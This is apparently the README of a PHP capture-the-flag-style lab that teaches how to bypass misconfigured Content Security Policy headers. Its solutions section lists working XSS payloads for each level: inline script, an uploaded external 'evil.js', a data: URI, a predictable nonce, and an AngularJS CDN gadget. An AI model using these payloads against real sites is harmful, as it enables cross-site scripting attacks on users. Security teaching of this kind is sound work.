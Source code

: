 # CSP Bypass Lab
Bypass project of CSP security standard, which is a protection method for XSS vulnerability. 
This project contains sample test cases for bypassing incorrectly&incompletely configured CSP headers. 

## What is CSP
Content Security Policy is a computer security standard that was introduced to prevent cross-site scripting, click-through, and other code injection attacks resulting from the execution of malicious content in the context of a trusted web page. 

This project created with PHP.

## Challenges
- unsafe-inline
- External Resource
- data directive
- src nonce
- Common uses JS CDN
- Google Callback Functions

## Solutions
Check https://csp-evaluator.withgoogle.com before solutions.

#### Level 1
As a result of the 'unsafe-inline' directive used, if the input entered contains a script tag, the javascript is triggered. Example payload 

```sh
<script>alert(1)</script>
```

#### Level 2
JS codes from yourjavascript.com, which is an external resource, will be allowed. It is triggered by malicious JS code. Go to yourjavascript.com , create malicious code and upload.

```sh
<script type="text/javascript" src="http://yourjavascript.com/0513280132/evil.js"></script>
```

#### Level 3
data: URI in script-src allows the execution of unsafe scripts.

```sh
<script src=data:text/javascript,alert(1337)></script>
```

### Level 4
We see the base64 encode form of current time's as the nonce value in response as the CSP rule. Example payload

```sh
<script nonce="MjcuMDMuMjAyMS8yMjoxNw==">alert(1)</script>
```

### Level 5
One of the most used JavaScript CDNs is cdnjs.cloudflare.com. At this level, we will try to trigger XSS on a page that has Cloudflare allowed CDN resources.

```sh
<Script Src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.0/angular.min.js> </Script><K Ng-App>{{$new.constructor('alert(1)')()}}
```

### Level 6
Same as the previous level, here you can use callback functions.

### Level 7
Given this CSP header:
Content-Security-Policy: frame-src https://example.com
The following <iframe> is blocked and won't load:
  
```sh
<iframe src="https://not-example.com/"></iframe>
```

Call the allowed page in Frame.

##### Useful Resources
- https://brutelogic.com.br/blog/csp-bypass-guidelines/
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy
